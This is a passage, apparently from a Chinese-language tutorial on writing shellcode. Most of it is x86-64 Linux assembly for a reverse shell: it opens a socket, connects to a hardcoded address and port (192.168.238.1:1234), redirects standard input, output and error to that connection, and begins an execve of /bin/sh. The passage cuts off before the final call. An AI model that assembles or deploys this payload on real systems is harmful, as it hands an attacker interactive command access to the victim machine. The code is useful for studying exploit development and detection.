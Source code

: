 现在，让我们把它们打包在一起：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register
    mov rdi, rax

;Creating the structure
    xor rax, rax 
    push dword 0x01eea8c0
    push word 0xd204
    push word 0x02

;Move stack pointer to RSI
    mov rsi, rsp

;Connect syscall
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 42
    syscall

;Dup2 syscall to stdin
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
```